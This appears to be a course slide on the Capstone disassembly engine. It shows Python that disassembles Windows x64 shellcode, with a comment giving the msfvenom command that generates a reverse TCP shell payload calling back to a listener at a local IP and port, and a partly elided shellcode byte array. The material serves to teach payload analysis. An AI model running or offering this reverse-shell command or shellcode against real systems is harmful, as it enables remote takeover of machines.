

Keystone/Capstone/Unicorn engines
Capstone Engine (cont.)
from capstone import *
# msfvenom -f python -p windows/x64/shell_reverse_tcp LHOST=192.168.10.179 LPORT=9999 -v shellcode
shellcode =  b""
shellcode += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41"
...
shellcode += b"\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5"
cs = Cs(CS_ARCH_X86, CS_MODE_64)
for i in cs.disasm(shellcode, 0):
    machine_code = " ".join([f"{x:02x}" for x in i.bytes])
    print(machine_code.ljust(40), i.mnemonic.ljust(10), i.op_str)
196